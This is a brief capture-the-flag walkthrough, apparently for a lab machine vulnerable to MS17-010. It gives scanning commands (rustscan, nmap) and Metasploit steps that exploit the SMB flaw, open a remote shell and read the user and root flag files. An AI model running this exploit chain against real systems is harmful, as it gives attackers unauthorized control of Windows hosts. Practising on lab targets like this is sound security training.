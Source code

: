 ```bash
rustscan -a 10.10.10.40
```
![image](https://github.com/lufffe/Writeups/assets/90646635/19e47648-70bf-4493-8cb5-e0115720d048)

```bash
nmap -A -p 135,139,445,49152,49153,49154,49155,49156,49157 10.10.10.40
```
![image](https://github.com/lufffe/Writeups/assets/90646635/918c7140-6458-4ca1-a449-e112c63823cf)

![image](https://github.com/lufffe/Writeups/assets/90646635/5d821058-2119-44ac-82c3-401457def3e6)

```bash
msf6 > search ms17-010
```
![image](https://github.com/lufffe/Writeups/assets/90646635/608b3218-a83f-4fa9-b899-0cd895cac6bb)

```bash
use 0 
set lhost
set rhosts
exploit
```

```bash
shell
```
![image](https://github.com/lufffe/Writeups/assets/90646635/72240d65-0d31-4d93-b0b7-b6cfea73f3ba)

C:\Users\haris\Desktop>

```bash
type user.txt
```

C:\Users\Administrator\Desktop>

```bash
type root.txt
```
